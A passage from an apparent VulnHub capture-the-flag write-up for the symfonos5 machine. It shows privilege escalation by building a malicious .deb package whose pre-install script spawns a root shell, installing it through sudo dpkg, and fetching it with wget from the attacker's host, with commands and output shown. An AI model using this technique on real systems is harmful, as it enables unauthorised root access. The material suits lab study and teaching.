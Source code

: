 lifesfun:\~/vulnhub/symfonos5\# cat shell.c

\#include \<stdio.h\>

\#include \<sys/types.h\>

\#include \<unistd.h\>

int main(void)

{

setuid(0); setgid(0); system("/bin/bash");

}

lifesfun:\~/vulnhub/symfonos5\# fpm -s dir -t deb --name exp --before-install
shell.c .

Debian packaging tools generally labels all files in /etc as config files, as
mandated by policy, so fpm defaults to this behavior for deb packages. You can
disable this default behavior with --deb-no-default-config-files flag
{:level=\>:warn}

Created package {:path=\>"exp_1.0_amd64.deb"}

However, the above gave an error when executing it with dpkg.

zeus\@symfonos5:\~\$ sudo /usr/bin/dpkg -i exp_1.0_amd64.deb

Selecting previously unselected package exp.

(Reading database ... 53057 files and directories currently installed.)

Preparing to unpack exp_1.0_amd64.deb ...

/var/lib/dpkg/tmp.ci/preinst: 4: /var/lib/dpkg/tmp.ci/preinst: Syntax error: "("
unexpected

dpkg: error processing archive exp_1.0_amd64.deb (--install):

new exp package pre-installation script subprocess returned error exit status 2

Errors were encountered while processing:

exp_1.0_amd64.deb

Following, used a simple bash command instead and it worked.

lifesfun:\~/vulnhub/symfonos5\# cat suid.sh

\#!/bin/bash

/bin/bash

When the package was downloaded using wget and ran, the root shell was obtained.

zeus\@symfonos5:\~\$ wget 192.168.211.146/exp_1.0_amd64.deb

\--2020-01-20 22:01:39-- http://192.168.211.146/exp_1.0_amd64.deb

Connecting to 192.168.211.146:80... connected.

HTTP request sent, awaiting response... 200 OK
